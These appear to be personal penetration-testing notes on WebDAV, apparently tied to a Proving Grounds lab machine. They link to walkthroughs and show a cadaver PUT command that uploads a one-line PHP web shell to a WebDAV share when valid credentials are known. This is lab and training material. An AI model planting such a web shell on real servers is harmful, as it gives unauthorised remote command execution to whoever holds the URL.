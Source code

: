 # Webdav

[WebDAV Guide : What Is it? And the Best WebDAV Alternatives for 2023](https://www.comparitech.com/net-admin/webdav/)

# Privilege Escalation through Webdav

A way to do this is explained in the bottom-half of this article here:

[Proving Grounds - Hutch - Walkthrough Write-Up PG Practice](https://juggernaut-sec.com/proving-grounds-hutch/)

# If you have valid webdav credentials

You can use your credentials to upload a webshell to the host. This is explained here.

[WebDav](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#cadaver)

I’ll use a tool called cadaver to upload with the PUT command.

```bash
cadaver <TARGET_URL>
#e.g. cadaver http://muddy.ugc/webdav
dav:/webdav/> put shell.php #<?php system($_REQUEST['cmd']); ?>
```

[https://www.notion.so](https://www.notion.so)

Expected output is this

![Untitled](Webdav%209ae006894f874e13b0e8a02d7cb8b965/Untitled.png)

It gets uploaded to `http:///muddy.ugc/webdav/shell.php`.